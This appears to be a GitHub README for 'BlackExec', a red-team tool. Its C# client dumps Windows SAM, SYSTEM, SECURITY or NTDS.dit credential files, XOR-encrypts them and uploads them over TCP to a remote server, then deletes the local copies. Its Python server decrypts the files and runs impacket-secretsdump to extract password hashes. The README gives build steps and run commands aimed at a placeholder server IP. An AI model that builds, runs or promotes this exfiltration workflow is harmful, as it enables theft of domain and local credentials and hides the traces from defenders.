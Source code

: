 # Client side 

# **BlackExec**

BlackExec is a C# program that dumps the SYSTEM, SECURITY, SAM, or NTDS.dit files from the local Windows machine, encrypts them using XOR encryption and uploads the encrypted files to a remote server over TCP.

## **Features**

- Dumps SYSTEM, SECURITY, SAM, or NTDS.dit files
- Zips the dumped files
- Encrypts the zip file using XOR encryption with a specified key
- Uploads the encrypted file to a remote server via a TCP connection
- Deletes the original, zipped, and encrypted files from the local machine after uploading

## **Usage**

1. Ensure you have the .NET 6.0 SDK installed on your machine.
2. Compile the C# program using the following command in the terminal:

```
dotnet build
```

1. Run the compiled program with administrative privileges:

```
EsentutlDump.exe <Server_IP> <Port> sam

EsentutlDump.exe <Server_IP> <Port> ntds
```

**Note:** The program must be run with administrative privileges to access the SYSTEM, SAM, ntds.dit and SECURITY files.

## **Configuration**

You can change the XOR encryption key before running the program, update the following variables in the code:

- **`string key`**: Set this to the desired XOR encryption key (Default value is “RedKey”)

## **Dependencies**

This program uses the following built-in .NET libraries:

- System.Diagnostics
- System.IO.Compression
- System.Net.Sockets
- System.Security.Principal







# Server side

# **File Receiver with XOR and SecretsDump**

This Python script receives files from clients via a TCP connection, optionally decrypts them using an XOR cipher, and extracts the contents. If the **`--show`** argument is provided, it runs the **`impacket-secretsdump`** tool to display the contents of the extracted files.

## **Features**

- Receive files from clients via a TCP connection
- Optional XOR decryption of received files using a provided key
- Extraction of received zip files
- Optional execution of **`impacket-secretsdump`** on the extracted files
- Detection and handling of **`ntds.dit`** file presence in the extracted files
- Clean up and archive of extracted files

## **Dependencies**

- Python 3.9 or later
- **`impacket`** (for the **`impacket-secretsdump`** command)

You can install the **`impacket`** package using the following command:

```
pip install impacket

```

## **Usage**

To run the script, execute the following command:

```
python file_receiver.py --xor_key "RedKey" --show
```

Replace **`"RedKey"`** with the desired XOR key. If you don't provide the **`--xor_key`** argument, the script will run without decrypting the file.

### **Arguments**

- **`xor`** or **`-xor_key`**: Specifies the XOR key to be used for decrypting the received file. If not provided, no decryption will be performed.
- **`-show`**: Unzips the received file, decrypts it if an XOR key is provided, and runs the **`impacket-secretsdump`** command on the extracted files. If the **`ntds.dit`** file is present in the extracted files, the command will be adjusted accordingly.
